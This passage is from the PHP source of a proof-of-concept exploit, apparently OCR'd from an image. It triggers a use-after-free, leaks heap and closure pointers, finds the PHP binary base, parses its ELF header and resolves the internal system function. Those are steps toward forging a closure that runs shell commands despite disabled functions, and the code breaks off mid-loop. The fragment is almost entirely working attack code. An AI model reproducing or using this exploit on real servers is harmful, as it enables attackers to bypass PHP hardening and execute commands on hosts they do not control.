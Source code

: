 ```php
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
```